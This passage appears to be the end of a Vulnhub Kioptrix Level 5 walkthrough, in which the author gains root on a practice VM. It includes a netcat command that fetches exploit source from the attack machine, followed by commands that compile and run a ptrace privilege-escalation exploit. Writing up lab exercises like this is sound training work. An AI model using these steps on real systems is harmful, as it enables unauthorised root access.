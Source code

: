 ![[escalation-4.png|380]]

On the target, I set up the receiver. The receiver reaches out to the sender for the file so on the target machine the IP address of the attack machine is used. 

```bash
nc -v -w 2 10.0.0.2 9001 > ptrace.c
```

`> ptrace.c`: Write the output of the command into the file

![[escalation-5.png|360]]

As soon as the transmission is completed the `netcat` sender command will terminate and give back the terminal prompt. Check the size of the file on the receiver. If the file size is not 0 the command was executed correctly.

Now the exploit code can be compiled and executed.

```bash
gcc ptrace.c -o ptrace
./ptrace
```

![[escalation-6.png|560]]

Using the `id` and `whoami` command I verified that I was now the `root` user. I checked the `/root` directory for a flag and found the `congrats.txt` file.

![[root-flag.png|500]]

## Alternative Approaches

[Kioptrix: Level 5 Walkthrough \| by Rafael Medeiros \| Medium](https://rafaelmedeiros94.medium.com/kioptrix-level-5-walkthrough-6c16b111cceb)

[Kioptrix Level 5 Vulnhub Walkthrough \| Mohamed Ezzat](https://mohamedaezzat.github.io/posts/kioptrix5/)

[Vulnhub Write-up Kioptrix 2014 (#5) \| by Yash Anand \| InfoSec Write-ups](https://infosecwriteups.com/vulnhub-oscp-type-kioptrix-5-writeup-16b73a3afa10)
